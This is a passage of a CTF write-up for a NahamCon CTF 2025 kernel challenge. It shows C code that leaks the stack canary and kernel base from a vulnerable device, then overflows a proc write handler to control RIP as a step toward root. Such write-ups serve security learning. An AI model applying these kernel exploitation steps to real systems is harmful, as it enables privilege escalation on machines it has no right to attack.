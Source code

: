 
Usually when starting kernel explotation we need to leak the kernel address but since the chall giving us `nokaslr`, we don't need to leak the address but for dynamic incase the server run kaslr i will giving brief how to bypass kaslr too. To leaking the kernel address and the canary, we can do this by `open` and `read` the file.

```c
int fd = open(DEV_PATH, O_RDWR);
if (fd < 0) error("[-] Failed fd open");

char buffer[0x400];
read(fd, buffer, 0x150);
dump_hex(buffer, 0x150);
```

![alt](/img/CTFTime/NahamCon_CTF_2025/Dump.png)

The canary usually end with `00` and the kernel address around `0xffffffff81000000`. So we can guess the canary at index 19 and for the kernel address we can choose any idx that start with `0xffffffff8XXXXXX`. For calculating the offset we can use `xinfo` command in the `gdb-gef`.

![alt](/img/CTFTime/NahamCon_CTF_2025/GDBoffset.png)

```c
leak = ((unsigned long *)buffer)[10];
canary = ((unsigned long *)buffer)[19];
kernel_base = leak - 0x1c8a08;

info("canary", canary);  
info("leak", leak);
info("kernel_base", kernel_base);
```

![alt](/img/CTFTime/NahamCon_CTF_2025/CanaryKernel.png)

If you remember the `write` func in the proc has buffer overflow because of the memcopy from the `proc_data` to `v7`.

Lets now try if we can touch the the rip. From the result i found that canary offset is at 4 which is 0x28 and we can see after placing the canary the RIP is now our buffer.
```c
uint64_t payload[0x200];
int canary_idx = 4;
payload[canary_idx++] = canary;
payload[canary_idx++] = 0x0;
payload[canary_idx++] = 0x4242424242424242;

dump_hex((char *)payload, 0x40);
write(fd, (char *)payload, 0x40);
```

![alt](/img/CTFTime/NahamCon_CTF_2025/RIPpoc.png)

After that i tried doing kernel `commit creds` to escalate root but for some reason it call the `commit creds` 2 times. So i decided to go for modprobing.
